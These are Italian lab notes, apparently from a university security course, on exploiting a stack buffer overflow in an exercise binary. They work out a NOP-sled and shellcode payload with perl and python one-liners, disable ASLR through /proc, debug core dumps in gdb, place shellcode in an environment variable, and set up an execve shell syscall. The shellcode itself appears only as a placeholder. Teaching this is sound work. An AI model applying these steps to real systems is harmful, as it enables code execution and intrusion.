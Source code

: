 # Su 'candy'
Il messaggio non è in .data in quanto sarebbe allocato in memoria
dove non voglio -> voglio l'eseguibile position-independent

# Per testate il codice
Creato il file test.c
Per vedere se l'array è giusto, confronto l'output di
hexdump -d candy.o
e
echo -e "ARRAY_SHELLCODE" | hexdump -C

# Come fare quindi?
Creo il candy vero con
echo -e -n "ARRAY_SHELLCODE" > exploit
togliendo l'ultimo \x0a (newline)
quindi
gdb ./exec-to-attack
ed in gdb
b correct-line
r < exploit

# Attacchiamo l'esercizio 5.4 della scorsa volta
Usando nella cartella 'lesson_3'
python -c "print 'a'*88" | ./ex_5.4_insecure
abbiamo un segfault -> sovrascriviamo con 88 byte
Codice 'noop' = 0x90
La lunghezza di 'exploit' è di 36 bytes
Devo lasciare abbastanza spazio per passare alla gets il puntatore del buffer
Quindi 88 - 36 - 4 = 48
Quindi stampo 48 'noop' seguito dallo shellcode verificato e dal puntatore a buf!
Per avere l'indirizzo di buf statico, necessito di disabilitare la randomizzazione con
echo 0 > /proc/sys/kernel/randomize_va_space
in una shell di root
Quindi, creo l'eseguibile con
perl -e 'print "\x90"x48 . "ARRAY_SHELLCODE" . "INDIRIZZO_BUF"' > exploit
Ma... Errore! Segfault
Controllo caricando in gdb con
gdb execname core
dopo aver eseguito
ulimit -c unlimited
e
cat exploit | exec-name
Vedo che non ho sovrascritto eip ma ebp!
Aggiungo altri 4 bytes di noop
perl -e 'print "\x90"x52 . "ARRAY_SHELLCODE" . "INDIRIZZO_BUF"' > exploit

# Nuovo attacco!
Creo una nuova variabile
export MY_ATTACK=`cat exploit_env`
dopo aver creato l'env exploit come
perl -e 'print "ARRAY_SHELLCODE"' > exploit_env
Quindi, dopo aver trovato l'indirizzo della variabile con
getenvaddr MY_ATTACK
attacco l'eseguibile con
perl -e 'print "A"x88 . "MY_ATTACK_ADDRESS"' | vulnerable-exec

# In generale
1. Scrivi l'exploit in C
2. Convertire l'exploit in assembler
3. Convertire l'exploit in binario
4. Testare il binario
5. ATTACCAH
# Creare una shell in assembler
eax = 0xb
ebx = indirizzo del programma
ecx =
edx = indirizzo dell'ambiente

# Per disassemblare
objdump -d ELF